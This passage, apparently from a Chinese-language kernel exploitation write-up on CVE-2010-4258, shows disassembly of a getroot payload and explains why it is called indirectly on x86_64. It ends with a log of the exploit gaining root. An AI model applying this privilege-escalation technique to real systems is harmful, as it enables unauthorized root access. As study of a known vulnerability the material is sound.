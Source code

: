```shell
  400ddc:	48 83 c4 08          	add    $0x8,%rsp
  400de0:	5b                   	pop    %rbx
  400de1:	c9                   	leaveq 
  400de2:	c3                   	retq    

/* on x86 */
08048b8f <getroot>:
 8048b8f:	55                   	push   %ebp
 8048b90:	89 e5                	mov    %esp,%ebp
 8048b92:	53                   	push   %ebx
 8048b93:	83 ec 04             	sub    $0x4,%esp
 8048b96:	8b 1d 54 a0 04 08    	mov    0x804a054,%ebx
 8048b9c:	8b 15 58 a0 04 08    	mov    0x804a058,%edx
 8048ba2:	b8 00 00 00 00       	mov    $0x0,%eax
 8048ba7:	ff d2                	call   *%edx
 8048ba9:	ff d3                	call   *%ebx
 8048bab:	b8 ff ff ff ff       	mov    $0xffffffff,%eax
 8048bb0:	83 c4 04             	add    $0x4,%esp
 8048bb3:	5b                   	pop    %ebx
 8048bb4:	5d                   	pop    %ebp
 8048bb5:	c3                   	ret    
```
可以看出，在x86_64上，commit_creds和prepare_kernel_cred的地址都是相对rip得到的。如果直接把get_root的机器码复制到mmap内存区域，那么在得到这两个函数地址的时候是rip(at mmap memory)+0x2012f4(or 0x2012f5)，最终得到的不是存储commit_creds和prepare_kernel_cred函数的地址。所以得来个骚操作：间接调用getroot，让rip跳到getroot函数里。

最终exp还是可以成功执行的：
```shell
w0lfzhang@w0lfzhang-666:~/Desktop/CVE-2010-4258$ ./pwn
[*] Resolving kernel addresses...
 [+] Resolved econet_ioctl to 0xffffffffa00e6520
 [+] Resolved econet_ops to 0xffffffffa00e6640
 [+] Resolved commit_creds to 0xffffffff81086420
 [+] Resolved prepare_kernel_cred to 0xffffffff810868f0
[*] Calculating target...
[+] landing: 0xffa00e6520
[*] Failed to set Econet address.
[*] Triggering payload...
[*] Got root!
# id
uid=0(root) gid=0(root) groups=0(root)
```

## Links
[CLONE(2) ](http://man7.org/linux/man-pages/man2/clone.2.html)
[CVE-2010-4258: Turning denial-of-service into privilege escalation](https://blog.nelhage.com/2010/12/cve-2010-4258-from-dos-to-privesc/)
[Writing kernel exploits](https://tc.gtisc.gatech.edu/bss/2014/r/kernel-exploits.pdf)